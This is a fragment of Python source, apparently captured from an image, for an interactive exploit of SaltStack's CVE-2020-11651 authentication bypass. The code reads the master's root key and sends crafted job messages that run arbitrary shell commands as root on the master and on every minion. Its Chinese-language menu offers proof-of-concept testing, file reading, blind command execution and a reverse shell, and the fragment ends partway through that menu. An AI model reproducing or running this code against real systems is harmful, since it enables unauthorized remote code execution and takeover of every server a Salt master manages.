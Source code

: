 ```python
                   "code": "import subprocess;subprocess.call('{}',shell=True)".format(exec_cmd)
               },
               'jid': '20200504042611133934',
               'user': 'sudo_user',
               '_stamp': '2020-05-04T04:26:13.609688'}

        try:
            response = channel.send(msg, timeout=3)
            print("Got response for attempting master shell: " + str(response) + ". Looks promising!")
            return True
        except:
            print("something failed")
            return False

    if master_or_minions == "minions":
        print("Sending command to all minions on master")
        jid = "{0:%Y%m%d%H%M%S%f}".format(datetime.datetime.utcnow())
        cmd = "/bin/sh -c '{0}'".format(exec_cmd)

        msg = {'cmd': "_send_pub", "fun": "cmd.run", "arg": [cmd], "tgt": "*", "ret": "", "tgt_type": "glob",
               "user": "root", "jid": jid}

        try:
            response = channel.send(msg, timeout=3)
            if response == None:
                return True
            else:
                return False
        except:
            return False


#####################################

master_ip=input('目标IP：')
master_port='4506'
channel = init_minion(master_ip, master_port)
try:
    root_key = check_CVE_2020_11651(channel)
except:
    pass
while master_ip!='':
    print('1.测试POC  2.读取文件  3.执行命令(无回显)  4.反弹shell  5.退出')

    whattype=input('请选择：')
    if whattype=='1':
        check_salt_version()  # 检查salt版本
        check_connection(master_ip, master_port, channel)  # 检查连接
        root_key = check_CVE_2020_11651(channel)  # 读取root key
        print(root_key)
    elif whattype=='2':
        path = input('读取路径：')
        try:
            pwn_read_file(channel, root_key, path, master_ip)  # 读取文件
        except:
            print('文件不存在')
    elif whattype=='3':
        print('1.master   2.minions')
        exectype = input('选择方式：')
        if exectype=='1':
            master_or_minions='master'
```